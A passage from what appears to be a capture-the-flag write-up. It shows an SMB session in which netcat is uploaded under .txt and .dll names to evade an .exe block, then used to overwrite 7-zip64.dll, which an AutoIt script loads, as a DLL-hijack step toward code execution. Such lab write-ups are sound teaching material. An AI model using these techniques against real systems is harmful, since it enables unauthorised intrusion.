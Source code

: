 
In fact, just trying to write `nc64.exe` to the share fails, but writing the
same file as `nc64.txt` works:

    
    
    smb: \> put nc64.exe 
    NT_STATUS_ACCESS_DENIED opening remote file \nc64.exe
    smb: \> put nc64.exe nc64.txt
    putting file nc64.exe as \nc64.txt (40.1 kb/s) (average 40.1 kb/s)
    smb: \> ls
      .                                   D        0  Wed Nov  9 22:57:42 2022
      ..                                DHS        0  Tue Apr 19 12:45:15 2022
      AutoIt3_x64.exe                     A  1013928  Thu Mar 15 13:17:44 2018
      Bginfo64.exe                        A  4601208  Thu Sep 19 20:15:38 2019
      nc64.txt                            A    45272  Wed Nov  9 22:57:42 2022
      scripts                             D        0  Mon Mar 21 21:22:59 2022
    
                    10328063 blocks of size 4096. 2255724 blocks available
    

Clearly it’s blocking uploading of files that have the `exe` extension.

### Execution via DLL Overwrite

#### Show Possible

Interestingly, it isn’t blocking the upload of DLLs:

    
    
    smb: \> put nc64.exe nc64.dll
    putting file nc64.exe as \nc64.dll (87.9 kb/s) (average 55.1 kb/s)
    

I can even overwrite `7-zip64.dll`:

    
    
    smb: \scripts\> ls 7-zip64.dll
      7-zip64.dll                         A  1076736  Mon Mar 21 13:43:58 2022
    smb: \scripts\> put nc64.exe 7-zip64.dll
    putting file nc64.exe as \scripts\7-zip64.dll (87.2 kb/s) (average 62.8 kb/s)
    smb: \scripts\> ls 7-zip64.dll 
      7-zip64.dll                         A    45272  Wed Nov  9 23:02:34 2022
    

#### Show Use

Before I go creating a DLL, I’ll take a look at some of these AutoIt scripts
to see if they use the dll. On downloading some and looking, there’s
references to it in `7Zip.au3`:

[![image-20221109181013327](https://0xdfimages.gitlab.io/img/image-20221109181013327.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20221109181013327.png)

So if this AutoIt script is run, it’s likely that this DLL will be loaded.

#### msfvenom Fail
